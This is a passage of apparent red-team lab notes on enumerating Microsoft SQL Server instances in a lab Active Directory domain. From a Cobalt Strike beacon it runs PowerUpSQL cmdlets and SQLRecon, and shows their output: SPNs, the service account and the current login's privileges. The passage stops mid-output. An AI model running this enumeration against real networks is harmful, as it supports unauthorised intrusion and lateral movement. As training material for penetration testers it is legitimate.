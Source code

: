 ```
beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

ComputerName : sql-2.dev.cyberbotic.io
Instance     : sql-2.dev.cyberbotic.io,1433
Status       : Accessible
```

**Then use&#x20;**<mark style="color:yellow;">**`Get-SQLServerInfo`**</mark>**&#x20;to gather more information about the instance:**

```
beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

ComputerName           : sql-2.dev.cyberbotic.io
Instance               : SQL-2
DomainName             : DEV
ServiceProcessID       : 2668
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\mssql_svc
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : No
ActiveSessions         : 1
```

{% hint style="info" %}
**If there are&#x20;**<mark style="color:green;">**multiple SQL Servers available**</mark>**, you can chain these commands together to automate the data collection:**

```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
{% endhint %}

SQLRecon can also enumerate servers via SPNs and fetch information about the instance with the `info` module.

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns

[*] Looking for MSSQL SPNs ...
[*] 1 found.

 |-> ComputerName:  sql-2.dev.cyberbotic.io
 |-> Instance:      sql-2.dev.cyberbotic.io:1433
 |-> AccountSid:    S-1-5-21-569305411-121244042-2357301523-1115
 |-> AccountName:   mssql_svc
 |-> AccountCn:     MS SQL Service
 |-> Service:       MSSQLSvc
 |-> SPN:           MSSQLSvc/sql-2.dev.cyberbotic.io:1433
 |-> LastLogon:     1/24/0423 12:48:15 PM
 
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info

[*] Extracting SQL Server information from sql-2.dev.cyberbotic.io

 |-> ComputerName:           SQL-2
```